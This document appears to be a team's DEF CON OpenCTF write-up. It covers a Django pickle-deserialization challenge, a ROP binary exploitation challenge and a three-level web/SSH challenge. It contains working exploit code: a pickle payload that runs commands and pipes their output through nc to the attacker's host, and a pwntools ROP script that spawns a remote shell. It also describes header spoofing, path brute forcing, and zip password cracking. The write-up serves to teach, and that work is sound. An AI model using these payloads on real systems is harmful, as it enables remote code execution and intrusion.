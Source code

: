 # OpenCTF

This year Shell Collecting Club showed up late, but strong to the DEF CON OpenCTF. We are under a time crunch for getting in these writeups. They will be revised a bit better later on. So we apologize for the brevity and lack of screen shots for the time being :)


## Solenya

### Web 300

When navigating to the supplied URL for the challenge, we were greeted with a really basic page that just had a JPG of Pickle Rick from Rick and Morty. There weren't any links that I can recall, so I tried to begin enumerating the server by hand to see if I could derive more information about the service.

I tried to go to *domain*/index.html to see what that would yield.

When doing so, I was greeted with a Django error page (Debug was set to True in the `setting.py` file!) that notified me that I had tried to navigate to a route that wasn't defined in `urls.py`. This error page also lets you know what the defined routes are.

There were 2 routes in particular that were interesting. The first was `/fingerprint/` and the second was `/wubbalubbadubdub/`.

In `/fingerprint/`, we were delivered a different Ricky and Morty image.

However, in `/wubbalubbadubdub/`, we were presented with a standard Django login page.

After trying for a bit to figure out what the creds might be, this attempt was abandoned and I started looking more at the web requests happening in the background.

I noticed a call to `/fingerprint/` with a large amount of POST data. This POST data was the output of javascript fingerprinting script that was being ran through `pickle.dumps` prior to being sent over, along with a `Token` HTTP header with the value `SSdtIFBpY2tsZSBSaWNrIQ==` (b64decode -> "I'm Pickle Rick!"). 

There were a bunch of references to Pickle Rick in this website, and python pickling is known to be dangerous. Therefore, it made sense that we could try to use this for our attack.

We assumed that the pickled POST data (literally called `pickle_data`), was unpickled on the `/fingerprint/` view.

So now, it was time to see if that worked.

I started a nc listener on my laptop (`nc -l -p 42069`) and sent some pickled data that would call `os.system` with some data piped into `nc`.

Due to the rush we were under, I didn't script up the entire payload delivery, but instead set a breakpoint in the JS debugger in the brower before the POST request was sent, and then modified the `pickle_data` variable to contain my generated payload.

Here was the test:

```import requests
import cPickle
import subprocess
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('{} | nc {} {}'.format('ls', '172.31.127.66', '42069'),),)

print cPickle.dumps(Exploit())
```

When I sent this data, I received the output of `ls` in my `nc` listener! We had RCE!

Now I just massaged the payload a bit, finding the flag in a file on the server.

You can read more about the badness of Python pickle [here](https://blog.nelhage.com/2011/03/exploiting-pickle/)


## babys_first_rop

### pwn

This was a pretty simple ROP challenge. 

From main, the binary calls a function that loads a bunch of data into a place labeled `gadgets` then calls a function called `vuln`.

This `vuln` function does a `read()` of 0x100 bytes into a buffer of size `0x50` creating an obvious overflow.

The stack was not executable.

The binary natively gave us a `pop rdi` gadget and a `pop rsi, r15` gadget.

Our method was to call `read()` again on the section of memory called `gadgets` (since it was executable), and load some shellcode there, finally returning to it.

The only thing we needed was a `pop rdx` gadget, which we were able to find using this:

```gdb-peda$ ropsearch "pop rdx" 
Searching for ROP gadget: 'pop rdx' in: binary ranges
0x0060118f : (b'5ac3')    pop rdx; ret
```

our final exploit is below:

```from pwn import *

#p = process(['./babys_first_rop'])
p = remote('172.31.2.62', 47802)
context.arch = 'amd64'

def pad_payload(payload, size):
    n = size - len(payload)
    payload += 'A' * n
    return payload

if __name__ == '__main__':
    ADDR_READ = 0x4004d0
    SHELLCODE = asm(shellcraft.amd64.linux.sh())
    print len(SHELLCODE)
    payload = 'A' * 0x50
    payload += 'whocares'
    payload += p64(0x400793) # pop rdi
    payload += p64(0)
    payload += p64(0x400791) # pop rsi, pop r15
    payload += p64(0x601080) # buf
    payload += 'AAAAAAAA'    # who cares
    payload += p64(0x60118f) # pop rdx
    payload += p64(0x64)     # shellcode len
    payload += p64(ADDR_READ)
    payload += p64(0x601080)
    p.sendline(pad_payload(payload, 0xff))
    p.sendline(SHELLCODE)
    p.interactive()
```


## Forbidden Folly

### level 1

When navigating to the webpage, we get a `403 Forbidden` error.

Knowing that this was a 50 point challenge, we knew the solution would be simple.

One of the first things we did was to set the `X-Forwarded-For` header with the value of `127.0.0.1` (localhost), and tried the get request again.

The flag was in an HTML comment.


### level 2

The HTML page returned from level 1 was some type of monitoring console of servers. But this string was interesting:

```Tim placed a web terminal on the system for easy access, the location of that has been emailed to everyone who has access to this portal.
```

Knowing that the domains listed in the monitoring panel were actual domains, we didn't try to attack those.

After spending way too much time analyzing the page, we decided to run, sigh, a brute force attack to enumerate some of the html paths on the server.

After some time, one finally hit: `/debug`.

When going there, there was an open directory listing with a file called `/debug/secret.txt`. This file contained the flag, and an email containing SSH creds for level 3.


### level 3

When sshing onto the server with the creds from level 2, we found a `secretpassword.zip` file in the home folder.

This zipfile was password protected.

We recovered the file, ran it though `zip2john` and finally `john the ripper`. After some time, the password was broken.

The password? `poopstinks`. Nice.

The contents of the zip file were jsut another password, presumably for another ssh user on the box. Listing the `/home/` directory, we saw a user named `hopper`.

At this point, its important to note that our user, `chad`, was not a sudoer.

When sshing onto the server with the user `hopper` and the password recovered from the zip, the first thing we tried was `sudo su`, and that worked. 

The flag was in the `/root` directory.